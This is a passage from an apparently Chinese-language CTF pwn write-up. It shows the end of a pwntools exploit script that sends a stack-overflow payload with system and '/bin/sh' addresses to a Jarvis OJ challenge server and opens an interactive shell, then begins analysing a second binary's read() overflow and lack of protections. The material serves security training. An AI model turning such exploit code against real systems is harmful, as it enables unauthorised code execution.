 ``` python
    payload  += p64(binsh_addr)   # system_addr
    payload  += p64(system_addr)   # system_addr

    
    sleep(0.5)
    io.sendline(payload)
    # get shell
    io.interactive()

if __name__ == '__main__':
    target_elf = './level0'
    #target_libc = './libc-2.23.so'

    target_host = 'pwn2.jarvisoj.com'
    target_port = '9881'

    context.log_level = 'debug'
    #context.terminal = ['tmux', 'splitw', '-v']

    elf = ELF(target_elf)
    #libc = ELF(target_libc)

    LOCAL = True
    LOCAL = False

    if LOCAL:
        #io = process(target_elf, env={'LD_PRELOAD':target_libc})
        io = process(target_elf)
        gdb.attach(io, 
        '''b *0x00000000004005BF
        b *0x00000000004005A6''')
    else:
        io = remote(target_host, target_port)
    
    exploit2()
```


### xman-level 1

用IDA查看，read函数明显的栈溢出，缓冲区为0x88,而最大可读0x100字节，所以可以溢出
``` c
char buf; // [esp+0h] [ebp-88h]
printf("What's this:%p?\n", &buf); //此处泄漏出buf的地址
return read(0, &buf, 0x100u); //溢出点
```
这里同时printf泄漏出了buf的地址，这个有用。

同时使用checksec查看程序的保护：
``` bash
sandy@ubuntu:~/Desktop/xman$ checksec level1 
[*] '/home/trump/Desktop/xman/level1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
程序没有开启任何保护，可以直接调到shellcode中进行执行。
